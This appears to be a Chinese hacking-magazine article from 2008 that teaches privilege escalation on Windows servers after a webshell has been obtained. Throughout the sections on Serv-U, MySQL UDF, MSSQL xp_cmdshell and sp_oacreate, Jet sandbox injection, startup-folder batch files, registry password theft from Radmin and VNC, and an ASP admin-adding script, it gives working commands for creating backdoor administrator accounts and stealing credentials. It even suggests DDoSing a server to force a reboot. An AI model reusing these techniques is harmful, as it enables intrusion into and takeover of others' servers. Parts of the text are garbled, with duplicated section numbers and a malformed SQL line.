

如果 Apache 服务器是以 System 权限启动的，那就意味着可以上传 PHP 木马来达到提权的目的，这样就可以访问系统的 CMDShell 来添加系统用户。在实际环境下遇到 Windows+Apache 架设的环境时，PHP 木马的权限一般不大，和 ASP 木马一样，属于 Guest 组。如果是 Linux 环境下，PHP 木马就可以发挥威力了。因为本人对 Linux 不熟悉，所以在这里就不多说了。

JSP+Tomcat 服务器这对黄金组合时下在国内用户还不是很多，只有大型的网站使用，主要还是因为 JSP 动态开发技术在国内不成熟。JSP+Oracle 数据库属于超大型数据库，JSP 木马通常在服务器中都是以系统权限运行的，所以说得到 JSP 木马后你就可以大胆地尝试添加系统账户了。现在国内 ASP 木马和 PHP 木马技术比较成熟，JSP 木马还处于成长阶段。

## 二、利用cacls.exe命令提权

Cacls 命令在 webshell 提权过程中用得还是比较多的，记得曾经想修改一个网站的主页，

## 非安全·黑客手册 2008 第一增刊

当我保存时提示没有权限，说明对于 ASP 木马拒绝“写入修改”权限。这个时候如果服务器支持 ASPX，可以尝试上传 ASPX 木马来达到提权的目的；如果服务器禁止了 ASPX 运行又该怎么办呢？可以尝试利用 webshell 自带的上传功能，上传本地做好的黑页去替换掉服务器上的文件，以此来达到目的。若依旧没有“上传写入”的权限，这个时候就需要利用 Cacls 命令来提权。

Cacls 命令格式及相关参数如下，在命令中可以使用通配符指定多个文件。

```bash
cacls.exe c: /e /t /g everyone:F   # 把 C 盘设置为 everyone 可以浏览
```

```bash
CACLS filename [/T] [/E] [/C] [/G user:perm] [/R user [...]] [/P user:perm [...]] [/D user [...]]
```

- filename 显示 ACL
- /T 更改当前目录及其所有子目录中指定文件的 ACL
- /E 编辑 ACL 而不替换
- /C 在出现拒绝访问错误时继续
- /G user:perm 赋予指定用户访问权限
- Perm 可以是 R（读取）、W（写入）、C（更改、写入）、F（完全控制）
- /R user 撤销指定用户的访问权限（仅在与 /E 一起使用时合法）
- /P user:perm 替换指定用户的访问权限
- Perm 可以是 N（无）、R（读取）、W（写入）、C（更改、写入）、F（完全控制）
- /D user 拒绝指定用户的访问

Cacls 命令格式其实很简单，上面都有注释了，大家多多理解。比如我们在入侵网站的过程中，对 index.asp 文件没有修改权限，可以尝试利用 Cacls 命令来修改权限。命令为 `cacls E:\index.asp /t /e /c /g interactive:f`，这段命令的意思是将 E:\index.asp 文件权限修改成 Everyone 完全控制权限的 interactive 组成员（IIS 访问用户 IUSER_机器名就在这一组）。但是注意 cacls 命令运行的环境，当 IUSER 没有对 index.asp 文件的修改权限，而 USERS 组对此文件具有完全控制权限的时候，就可以利用 Cacls 命令来提权。

### 三、Serv-U 有目录修改权限提权

在 webshell 提权过程中，想必 Serv-U 提权是平常运用得最多的了。从当初的 5.x 版本到如今的 6.4 版本，一直漏洞不断，出现过本地溢出漏洞、Serv-U 无目录修改权限下的提权、Serv-U 有目录修改权限下的提权，以及 Serv-U 反弹提权。在这里我会分别讲解上述的几种提权状况。

Serv-U 本地溢出漏洞主要出现在早期版本中，最新的 6.4 版本修复了此漏洞。此漏洞危害等级为严重！入侵者只需要 webshell 配合 SU 就可获得服务器权限。本地溢出可以说是利用了 Mssocket 组件来访问 FTP，现在已经有了 su.exe 本地溢出程序，利用 webshell 上传到服务器上在 cmd 中运行如下命令就可以成功添加账户和密码了。

```bash
su.exe 43958 "net user ly 123456 /add"
su.exe 43958 "net localgroup administrators ly /add"
```

### 四、Serv-U 无目录修改权限提权

前面讲了在 Serv-U 有目录修改权限下的提权，利用起来很简单，这里说说在 Serv-U 中无目录修改权限下的提权方法。首先尝试访问 Serv-U 安装目录，如果能浏览但不能写入或修改的时候我们通常会使用默认的账户（LocalAdministrator）和密码（#1@$ak#.lk;0@P）来提权。

现在的 webshell 大多都集成了 ASP 版本的 Serv-U 提权，如果 Serv-U 账户和密码没有修改，而且版本在 6.4 以下的就可以成功提权。但是随着 Serv-U 最新版本的出现，这个提权方法开始失效，我们只有尝试下载 ServUAdmin.exe 文件到本地，然后用 UE 打开，并找到对应的账户和密码信息，最后利用 ASP 版本的程序提权。总而言之，在没有目录修改权限的情况下可以尝试这种方法。

### 五、Serv-U 本地溢出提权

如果拿到一个 webshell 对 Serv-U 目录下的文件具有修改权限，那就意味着提权将变得很轻松。Serv-U 的配置信息在 ServUDaemon.ini 文件中，其中包含着 Serv-U 用户的所有配置信息，我们可以在本地安装 Serv-U，将本地的配置信息传到服务器上覆盖即可。下面我详细说下本地 Serv-U 的设置，这里以中文汉化版为例。

在本地安装好，新建用户 -> 配置密码 -> 指定用户访问目录 -> 一直“下一步”直到完成，如图 2 所示。



然后在“目录访问”选项中，将所有项目选中，这就意味着你所建立的账户具有最高权限，如图 3 所示。



配置好后将目录下的 ServUDaemon.ini 文件用 webshell 上传覆盖掉服务器上的文件，然后在本地命令提示符下执行以下命令，就在服务器上建立了管理员权限账户，如图 4 所示。



```bash
quote site exec net user ly 123456 /add
quote site exec net localgroup administrators ly /add
```

### 六、Serv-U 反弹提权

当我们拿到 webshell 时，利用 asp 或者 aspx 版本的 Serv-U 提权程序，服务器会积极拒绝我们的请求，这是因为防火墙限制了外界与 43958 端口通信。解决的办法就是将 43958 端口转发到其他端口，绕过防火墙的拦截。

首先上传 Fpipe.exe 文件到 webshell 可执行权限的目录，一般有“C:\RECYCLER”或者“C:\Docume~1\All Users”等目录。再保证 Serv-U 的默认账户和密码，以及端口号没有更改，若更改了得先获取具体信息后再提权。在 webshell 命令中执行：`C:\RECYCLER\FPipe.exe -v -l 1234 -r 43958 127.0.0.1`，意思是将服务器本地的 43958 端口转发到 1234 端口上。

接下来在本地机器上新建个 Serv-U，IP 填服务器的 IP 地址，账户填上默认的“LocalAdministrator”，密码处填上默认的 `#1@$ak#.lk;0@P`，端口号写上“1234”。然后连上 Serv-U，再利用上面的办法添加系统账户和密码，得到 System 权限。

### 七、利用 PcAnywhere 提升权限

在网站提权过程中，利用最广泛的第三方软件应该除了 Serv-U 就是 PcAnywhere 了。PcAnywhere 是赛门铁克公司出品的一款远程控制软件，极大地方便了管理员对远程服务器的在线管理，所以在很多服务器上都有它的身影。所谓树大招风，自然也就成了黑客们研究的重点对象，于是就有了各种提权方法。

熟悉 PcAnywhere 的朋友都知道，安装了 PcAnywhere 的服务器开放了 5631、5632 端口，其默认的安装目录是“C:\Docume~1\All Users\Application Data\Symantec\PcAnywhere”，正好是在 All Users 目录下，这就方便了 ASP 木马的访问，导致了安全问题。

利用 ASP 木马访问软件安装目录下的“*.cif”文件，将其下载回本地，利用 Pcanypass 或者 Domain3.6 辅助功能可以破解出 PcAnywhere 密码和账户，如图 5 所示。



有了账户和密码，在本地机器上安装 PcAnywhere，配置好端口就可连接上服务器了，如图 6 所示。



上述提权方法只针对 PcAnywhere 11 以前的版本有效，现在出了 PcAnywhere 12，发现安装后在“C:\Docume~1\All Users\Application Data\Symantec\PcAnywhere”目录下并没有“.cif”文件，但是在“C:\Docume~1\All Users\Application Data\Symantec\PcAnywhere\host”目录下有个 .cif 文件，下载回本地破解后是乱码。

> 此时提权的方法：在本地新建个连接，将本地 host 目录下的“.cif”文件上传到服务器上覆盖，再连接服务器端 PcAnywhere 就可以得到 System 权限。

关于 PcAnywhere 的入侵手段，笔者只积累了这么多，如果大家有新发现到时候一定要反馈给我哦，共同学习进步！

## 八、利用 MYSQL 提权

现在流行的脚本语言是 ASP、ASP.NET 以及 PHP 了，对于 JSP 脚本语言，国内貌似还不成熟。对于安全而言，漏洞最多的当然属 ASP 了，而 PHP 脚本在各位大牛的研究下，漏洞也变多了。ASP.NET 安全性还可以，笔者在用 ASP.NET 做 Web 的时候，也养成了定义变量的习惯，比如在获取 ID 变量的时候，传统 ASP 的写法是：

```asp
<%
dim ID
ID = Request.QueryString("id")
Set Rs = Server.CreateObject("Adodb.Recordset")
Sql = "select * from news where id =" & id
Rs.open Sql, conn, 1, 1
%>
```

以上代码的编写，如果程序员一疏忽，就很容易导致 SQL 注入漏洞。而在 .Net 中就不会出现这样的问题，如果在获取变量的时候没有定义相应的变量类型，会出现波浪线提示你，也希望大家对安全性进行了解或者养成良好的书写习惯。

.Net 写法如下：

```vb
Dim id As Integer
id = e.items.cells(0).text
Dim cmd As Data.OleDb.OleDbCommand
Dim cmdstr As String
cmdstr = "select * from news where id =" & id
cmd = New Data.OleDb.OleDbCommand(cmdstr, conn)
```

变量在获取之前就声明了，这样就很难出现 SQL 注入漏洞。这个话题有点扯远了，回来说说 MYSQL 提权。在 PHP + MYSQL 架设的网站中，想提权的话估计还得靠 MYSQL 数据库。如果在数据库连接文件中使用了“root”来连接数据库，权限就相当于 MYSQL 数据库中 SA 权限的角色。

怎么获取 php webshell 我就不说了，大家自己想办法。先利用 webshell 上传 MYSQL 提权程序和一段 PHP 脚本程序，然后利用得到的 root 账户和密码，以及连接数据库文件来连接上 MYSQL 数据库。接下来导出 udf.dll 文件，值得注意的是：在 Win2000 下此文件的位置在“C:\Winnt\udf.dll”，而 Win2003 下此文件位置在“C:\Windows\udf.dll”，如图 7 所示。



接下来分别执行以下命令就可在服务器上新建个 ly 的账户，最后删除此函数，代码为：`drop function cmdshell;`

```sql
select cmdshell('net user ly 123456 /add');
select cmdshell('net localgroup administrators ly /add');
```

总之，MYSQL 提权成功率还是相当高的，最近 DVBBS PHP 版本出现漏洞，配合 MYSQL 数据库高权限拿下服务器权限也不是难事，就靠大家在实践中去体会了，我只是做个抛砖引玉。

### 九、利用 Radmin 提权

Radmin 是一款优秀的远程控制软件，其体积不大，但是在功能上却一点不逊色于其他软件，在服务器上应用得也相当广泛。服务器上安装 Radmin 后就会开启 4899 端口，如果拿到 webshell 后发现服务器上存在该软件，那么提权又变得简单多了。因为在 Radmin 安装过程中，它会将用户的密码写入到注册表中，如果 webshell 对注册表有访问权限，那么可以轻松读取 Radmin 的键值“HKLM_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters”。

如果想利用 Radmin 提权，还必须具备一个条件，那就是具有 Wscript.Shell 权限。在 webshell 执行命令：

`regedit /e d:\radmin.reg HKLM_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters`

意思是将注册表中的值读出来，在 D 盘下生成 radmin.reg 文件。

将 radmin.reg 文件下载回来后打开，如图 8 所示，图中最下面的就是加密后的密码字段，将其破解后通过本地的 Radmin 进行连接就可以了。


```reg
"AutoAllow"=hex:00,00,00,00
"AskUser"=hex:00,00,00,00
"EnableEventLog"=hex:00,00,00,00
"NTAuthEnabled"=hex:00,00,00,00
"Parameter"=hex:d3,96,ef,c7,01,0e,22,6c,fd,40,e0,7d,3f,01,12,a7
```

如果破解不了，依旧不能实现提权，于是某位牛人开发出不需要破解就可以登录的 Radmin，直接填入 32 位的 Hash 值就可成功连接，如图 9 所示。



好了，关于 Radmin 提权就说这么多了，希望大家能多体会多实践。

### 十、利用 MSSQL 提权

#### 1、SA 提权方法

微软的 SQL SERVER 数据库在国内应用得相当广泛，ASP、ASPX + MSSQL 黄金组合是国内大型站点的首选，MSSQL 依靠微软自家强大的操作系统占据了庞大的市场。SQL SERVER 服务器就其本身来说，漏洞不是很严重，当其用了过高的连接权限时就会造成很多的安全问题。

首先说说 SA 权限下的脚本提权方法。在我们入侵网站的时候，通过测试发现数据库连接权限是 SA 时，对应的数据库连接文件中是这样写的：ConnStr =

如果 WEB 服务器和 MSSQL 服务器在同一台主机上，当拿到 webshell 后，找到数据库连接文件 conn.asp，以及数据库连接账户和密码，通过 SQL 查询分析器连上 SQL SERVER 服务器，执行如下命令：

```sql
exec master.dbo.xp_cmdshell 'net user ly 123456 /add'
exec master.dbo.xp_cmdshell 'net localgroup administrators ly /add'
```

该方法是利用 xp_cmdshell 来执行命令的。如果将 xp_cmdshell 组件删除后，我们怎么获得系统权限呢？在 MSSQL 数据库中还提供了个功能“sp_oacreate”，在查询分析器中执行如下命令，同样可以执行。

```sql
DECLARE @shell INT
EXEC SP_OAcreate 'wscript.shell', @shell OUTPUT
EXEC SP_OAMETHOD @shell, 'run', null, 'C:\WINDOWS\system32\cmd.exe /c net user ly 123456 /add'

DECLARE @shell INT
EXEC SP_OAcreate 'wscript.shell', @shell OUTPUT
EXEC SP_OAMETHOD @shell, 'run', null, 'C:\WINDOWS\system32\cmd.exe /c net localgroup administrators ly /add'
```

若“sp_oacreate”被删除了该怎么办呢？SA 权限就是好！还有一招就是开启沙盒模式，原理是 Jet 引擎可以调用 VBA 的 shell() 函数，如果存在一个 sa 或者 dbowner 连接的 SQL 注入点，就可以构造出如下注入语句：

`InjectionURL;EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engine','SandboxMode','REG_DWORD','0' --`

我们将 SandBoxMode 开关的注册表值修改为 0 就成功了，接着连接到一个 Access 数据库中就可以执行系统命令。当然，执行系统命令我们只需要一个 Access 数据库相关 Select 的注入点，或者直接用 ASP 文件 Select 调用这个 VBA 的 shell() 函数。其实 MSSQL 有一个 OpenRowSet 函数，它的作用是打开一个特殊的数据库，或者连接到另一个数据库之中。当我们有一个 SA 权限连接的时候，就可以做到打开 Jet 引擎连接到一个 Access 数据库，同时我们搜索系统文件，会发现 Windows 系统目录下本身就存在两个 Access 数据库，位置在 `%windir%\system32\ias\ias.mdb` 或者 `%windir%\system32\ias\dnary.mdb`。这样的话，我们又可以利用 OpenRowSet 函数构造出如下注入语句：

`InjectionURL',Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',',Database=c:\winnt\system32\ias\ias.mdb','select shell("net user ly 123456 /add")');--`（2000/NT 系统下）

原理就说这么多了，操作起来很简单的。在存在注入的地址后写入如下代码，执行后就可以成功提权。

```sql
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandboxMode','REG_DWORD',0
Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',',Database=c:\windows\system32\ias\ias.mdb','select shell("net user ly 123456 /add")');
Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',',Database=c:\windows\system32\ias\ias.mdb','select shell("net localgroup administrators ly /add")');
```

提权的方法是多样的，技术也在不断更新，不可能每个都讲到。对于 MSSQL 数据库 SA 权限的提权方法，我就只说这么多。

#### 2、DB_owner 提权

DB_owner 权限虽然没有 SA 的大，但是通过 DB_owner 权限可以轻松获得 webshell。利用 webshell 读取数据库连接文件 conn.asp 中的账户和密码信息，通过 SQL 查询分析器连接上 SQL 服务器，因为 DB_owner 权限不能调用 xp_cmdshell 等 SQL SERVER 扩展存储功能，所以我的思路是将我们的木马程序利用差异备份放置到启动项中，等服务器重新启动就可得到 System 权限。

要备份到启动项当然要列出目录了，在这里利用 MSSQL 的“XP_DIRTREE”来列目录，命令为：`exec master..xp_dirtree 'c:',1,1`，意思是列出 C 盘下的文件。

接着就可以将远程控制的木马（例如灰鸽子、Pcshare 等）传到服务器上。先将小马代码用 HEX 转换成 16 进制，再用 SQL 查询分析器 LOG 备份一句话到 administrator 启动项目录下，如图 10 所示，代码如下：

```sql
alter database [master] set RECOVERY FULL--
create table cmd (a image)--
backup log [master] to disk = 'c:\cmd1' with init--
insert into cmd (a) values(0x130A0D0A40453686F206F6660D0A40636420257769E646972250D0A4064656C2064697202F73202F612073657468632E657865D0A40636F707920257696E646972255C73797374656D33325C636D642E657865202F790D0A40636F7079202577696E646972255C73797374656D33325C636D642E657865202F790D0A7865202577696E646972255C73797374656D33325C646C63616363655C73657468632E657865202F790D0A)
```## webshell 无处逃——提权 20 招

backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\vbs.bat' -- drop table cmd --

```sql
SELECT DB_NAME()
alter database [ksmm] set RECOVERY FULL--
insert into ksmm) values ('c:\winnt\system32\cmd.exe') backup log [ksmm] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\vbs.bat' -- drop table cmd --
```



等待管理员重启服务器，或者是人为 DDOS 服务器重启，管理员以 Administrator 账户登录后就拿到最高权限了。

### 十一、写入启动项提权

本节说的提权方法和 MSSQL Db_owner 提权相似，在 WINNT 时代，对于系统的入侵，用得最多的方法就是 IPC$。后来有很多管理员采用一个批处理脚本来解决 IPC$ 共享问题，代码如下：

- @echo off
- net share c$ /del
- net share d$ /del
- net share e$ /del
- net share ipc$ /del
- net share admin$ /del

简单的几句代码就关闭了 IPC 入侵的大门，所以批处理的功能也是很强大的，既快捷又方便。通过上面这个例子，无意给了我们一个思路，那就是利用批处理来建账户。因为 webshell 的权限很小，只能在 All Users 目录下浏览，所以写好的批处理文件也只能放在该目录下，我写的代码如下：

- @echo off
- net user ly 123456 /add
- net localgroup administrators ly /add

将以上代码保存到 “D:\Documents and Settings\All Users\「开始」菜单\程序\启动” 目录下，等待管理员重新启动服务器就可添加账户。此方法在 WIN2000 Server 中相当有效果，在 WIN 2003 下效果不明显。本节内容虽然简单，但功能却不简单！

## 十三、利用 cscript 将 asp.dll 加入特权组提权

将 asp 解析成 System 权限，就是将 asp.dll 这个动态链接库文件放到 “/W3SVC/InProcessIsapiApps” 下。当你把 asp.dll 文件放到该目录下后就获得执行命令的权限，当然提权也就不成问题了。利用 webshell 命令提示符的功能，执行命令：“cscript adsutil.vbs get /W3SVC/InProcessIsapiApps”，返回信息如下：

> "C:\WINNT\system32\idq.dll"  
> "C:\WINNT\system32\inetsrv\httpext.dll"  
> "C:\WINNT\system32\inetsrv\httpodbc.dll"  
> "C:\WINNT\system32\inetsrv\ssinc.dll"  
> "C:\WINNT\system32\msw3prt.dll"

而 asp.dll 文件是在 "c:\winnt\system32\inetsrv\asp.dll"，所以利用命令：
"cscript adsutil.vbs set /W3SVC/InProcessIsapiApps"，返回信息如下：

> "C:\WINNT\system32\idq.dll"  
> "C:\WINNT\system32\inetsrv\httpext.dll"  
> "C:\WINNT\system32\inetsrv\httpodbc.dll"  
> "C:\WINNT\system32\inetsrv\ssinc.dll"  
> "C:\WINNT\system32\msw3prt.dll"  
> "c:\winnt\system32\inetsrv\asp.dll"

利用 set 命令将 asp.dll 文件放到特权组中，这样 asp 木马就具有了 System 权限。注意：以上执行的一切命令一定要在 "C:\Inetpub\AdminScripts>" 目录下执行才可以，否则不会成功执行。

### 十三、添加超级用户的 ASP 代码

据说是蓝屏大哥发现的漏洞，竟然 ASP 也可以直接添加管理员，只可惜成功率不高。既然前辈把代码都写好了，也就算是一种提权方法吧，在这里和大家一起分享。代码如下：

```asp
<html>
<head>.network 对象脚本权限提升漏洞利用工具</head>
<form action="useradd.asp" method=post>
用户: <input name="username" type="text" value="kevin1986"><br>
密码: <input name="passwd" type="password"><br>
<input type="submit" value="添 加 ">
</form>
<%@codepage=936
on error resume next
if request.servervariables("REMOTE_ADDR")<>"127.0.0.1" then
response.write "IP Is nOT RiGh t"
else
if request("username")<>"" then
username=request("username")
passwd=request("passwd")
Response.Expires=0
Session.TimeOut=50
Server.ScriptTimeout=3000
set Ip=Server.createObject("WSCRIPT.NETWORK")
oz="WinNT://"&Ip.ComputerName
Set ob=GetObject(oz)
Set oe=GetObject(oz&"/Administrators,group")
Set od=ob.create("user",username)
od.SetPassword passwd
od.SetInfo
oe.Add oz&"/"&username
if err then
response.write "哎……"
else
if instr(server.createobject("Wscript.shell").exec("cmd.exe /c net user "&username).stdout.readall,"上次登录")>0 then
response.write "虽然没有错误，但是好像也没建立成功"
else
Response.write "OMG!"&username&"账号居然成了!"
end if
end if
else
response.write "请输入用户名"
end if
end if
%>
</html>
```

提权调用了 Wscript.shell 和 WSCRIPT.NETWORK 组件，所以说 webshell 如果没有 Wscript.shell 组件的支持，是很难获取系统权限的。这段代码我也没成功运用过，在这里就不多说了。

### 十四、VNC 提权

VNC 提权也是很常见的，它在提权频率中仅次于 Serv-U 和 PcAnywhere，所以很有必要掌握它的提权方法。VNC 是一款国外的远程控制软件，默认安装后在本机开放 5900 端口，VNC 主要有两个程序：VNC Server 及 VNC Viewer。VNC 的安装过程会将密码写入到注册表 “HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4\Password” 键值中，如果 webshell 对注册表有访问权限就可以轻松读出密码，如图 11 所示。

